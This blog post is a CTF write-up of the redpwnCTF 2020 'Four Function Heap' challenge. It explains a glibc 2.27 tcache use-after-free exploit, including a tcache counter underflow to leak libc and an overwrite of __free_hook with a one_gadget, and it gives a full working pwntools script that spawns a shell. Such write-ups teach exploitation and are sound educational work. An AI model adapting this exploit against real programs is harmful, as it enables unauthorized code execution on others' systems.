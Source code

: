 ```yaml
---
layout: post
title: redpwnCTF 2020
---
```

b1c 1st place high schools :D


## Four Function Heap
Pwn, 490

> When ctf writers can't think of interesting problems, there's always four function heap
>
> nc 2020.redpwnc.tf 31774

My first decent heap solve :)

The idea is to get a write and overwrite one of the hooks (I chose to overwrite `__free_hook`) with a one_gadget to get a shell.

Usual security checks gives us:
```
boshua@cybersec:~/fourfunction/bin$ pwn checksec four-function-heap
[*] '/home/boshua/fourfunction/bin/four-function-heap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
<!-- more -->

and

```
boshua@cybersec:~/fourfunction$ strings libc-2.27.so | grep GNU
GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1) stable release version 2.27.
Compiled by GNU CC version 7.3.0.
```

Meaning it's probably heap exploitation as pointed out by the title.

The binary is also running on the standard `libc-2.27.so`, so tcache exploitation is probably the way to go as this version of libc doesn't really have security checks for it.

Some interesting things to note:
- Only have 14 operations in total
- Can only use index 0 to read/write/delete; the program won't accept any other index

Opening the binary into Ghidra, there is a pretty clear UAF vulnerability - when a chunk is created, a variable gets set to that pointer but isn't reset when that chunk is freed.

1. I first allocated a `0x100` sized chunk, and leaked its address with a double free and showed it. I needed this address to forge chunks later on.

2. I allocated another `0x100` chunk from the tcache freelist, and wrote the address I leaked from step 1. The tcache freelist is still the same, but now the counter is `1`. See appendix for why I did this.

3. Next, I allocated a padding chunk of size `0x420`. This chunk serves as a padding between the chunk from step 2 and the top, making sure that the previous chunk doesn't get merged with the top when it's freed. Note that this chunk is `0x100` size, because I wanted to pull from the top chunk, not the tcache.

4. I allocated another chunk of size `0x100`, as well as writing the leaked chunk address from step 1. This chunk also comes from the tcache freelist, and reduces the counter to `0x00`.

5. I finally allocated one more `0x100` chunk from tcache. This one underflowed the tcache counter to `0xff`. The pointer to this chunk was the original leaked pointer, from my overwrite in step 4.

6. I then freed it, so its address wound up in the unsorted bin. The unsorted bin's top chunk gets a pointer to the main arena (inside libc) written to it, so I leaked that.

7. I showed the chunk from step 5 and leaked the libc pointer.

    I calculated the libc base address from the leak, and then calculated the addresses of the `__free_hook` and the one_gadget I found.

8. I allocated a `0x40` sized chunk. This basically split my chunk from step 5 into two smaller chunks due to glibc's first-fit allocation. I wrote the address of `__free_hook` to this chunk.

    The address of this chunk is pointed to by the first free in action 1. After writing the address of `__free_hook`, the tcache looks something like `top -> chunk1 -> __free_hook`

9. I allocated a `0x100` sized chunk from tcache. This removed one from the tcache freelist and set me up for the `__free_hook` overwrite.

10. I allocated a `0x100` sized chunk from tcache. This chunk's address was the `__free_hook` address that I wrote in step 8. So, I can just overwrite that address with the address of the one_gadget.

11. I freed a chunk for the last time, triggering `__free_hook` and spawning the shell.


```python
from pwn import *

p = remote("2020.redpwnc.tf", 31774)
#p = process("./bin/four-function-heap")
e = ELF("./bin/four-function-heap")
libc = ELF("./libc-2.27.so")

'''
gdb.attach(p, """break * 0x555555554a50
c""")
'''

def alloc(idx, size, data="AAAA"):
	print("alloc")
	p.recvuntil(":")
	p.sendline("1")
	p.sendlineafter(": ", str(idx))
	p.sendlineafter(": ", str(size))
	p.sendlineafter(": ", data)

def free(idx):
	print("free")
	p.recvuntil(":")
	p.sendline("2")
	p.sendlineafter(": ", str(idx))

def show(idx):
	print("show")
	p.recvuntil(":")
	p.sendline("3")
	p.sendlineafter(": ", str(idx))

# Your Code Here
alloc(0, 0x100)

free(0)
free(0)
show(0)

dat = p.recvline()

curr_chunk = u64(dat[:6].ljust(8, "\x00"))
print("curr_chunk", hex(curr_chunk))

alloc(0, 0x100, p64(curr_chunk))
alloc(0, 0x420)
alloc(0, 0x100, p64(curr_chunk))
alloc(0, 0x100, "CCCCCCCC")
free(0)
show(0)

dat = p.recvline()
libc_leak = u64(dat[:6].ljust(8, "\x00"))
print("libc leak", hex(libc_leak))

libc.address = libc_leak - 0x3ebca0
print("libc address", hex(libc.address))

free_hook = libc.sym["__free_hook"]
one_gadg = libc.address + 0x4f322

print("free hook", hex(free_hook))
print("one gadget", hex(one_gadg))

alloc(0, 0x40, p64(free_hook))
alloc(0, 0x100, "AAAAAAAA")
alloc(0, 0x100, p64(one_gadg))
free(0)

p.interactive()
```

Flag: `flag{g3n3ric_f1ag_1n_1e3t_sp3ak}`


### Appendix
I wanted to leak libc to get the one_gadget address (I only had an offset from libc base due to the security protections).

The standard approach is to fill up the tcache freelist. Then, you can allocate and free one more chunk to get it in the unsorted bin, whos `fd` pointer will have a pointer to a libc address.

Each tcache bin only holds 7 freed addresses, so you can usually accomplish this by allocating 7 times, then freeing 7 times. However, that in itself is 14 operations, meaning I can't use that.

The option that I used was to underflow the tcache counter. The idea is to basically request allocations from the tcache freelist until you underflow the counter, setting it equal to 0xff. Then, you can allocate and free one more chunk to get it into the unsorted bin.
